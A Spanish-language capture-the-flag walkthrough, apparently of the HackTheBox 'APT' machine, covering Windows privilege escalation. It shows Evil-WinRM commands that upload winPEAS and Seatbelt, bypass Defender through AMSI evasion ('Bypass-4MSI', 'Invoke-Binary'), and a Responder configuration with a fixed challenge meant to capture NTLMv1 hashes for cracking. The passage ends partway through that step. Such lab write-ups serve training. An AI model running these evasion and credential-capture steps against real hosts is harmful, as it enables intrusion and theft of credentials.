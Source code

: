 ## Privilege Escalation {-}

### Rootear la maquina {-}

Aqui vamos a tirar de **WinPeas**. Descargamos el winPEAS en nuestro equipo de atacante

```bash
wget https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/binaries/x64/Release/winPEASx64.exe
```

Il lo cargamos desde Evil-WinRM

```powershell
cd C:\Users\henry.vinson_adm\AppData\Local\Temp
upload winPEASx64.exe
dir
.\winPEASx64.exe
```

Aqui vemos que no podemos lanzar el exe porque no lo pilla el antivirus. En este caso el defender no nos deja passar por los bypass normales
pero podemos hacer cositas con funcciones de Evil-WinRM.

```powershell
menu
Bypass-4MSI
Invoke-Binary /home/s4vitar/Desktop/HTB/APT/content/winPEASx64.exe
```

Tenemos que esperar que se acabe la ejecucion para ver el resultado.

Aqui no vemos nada interessante. Probamos otre binario de analysis, el [Seatbelt.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/).

```bash
wget https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Seatbelt.exe
```

Lo cargamos nuevamente a la maquina victima

```powershell
Invoke-Binary /home/s4vitar/Desktop/HTB/APT/content/Seatbelt.exe
Invoke-Binary /home/s4vitar/Desktop/HTB/APT/content/Seatbelt.exe -group=all
```

Aqui podemos ver que el NTLM de version 1 esta expuesta en esta maquina.

Aqui vamos a tirar de [crack.sh](https://crack.sh/cracking-ntlmv1-w-ess-ssp/) en lo cual podemos tratar de utilizar el **responder** para
recuperar la llaves y crackearlas con [crack.sh](https://crack.sh)

1. Modificamos el fichero de configuracion de responder

    ```bash
    cd /usr/share/responder
    vi Responder.conf

    # cambiamos el challenge 
    Challenge = 1122334455667788
    ```
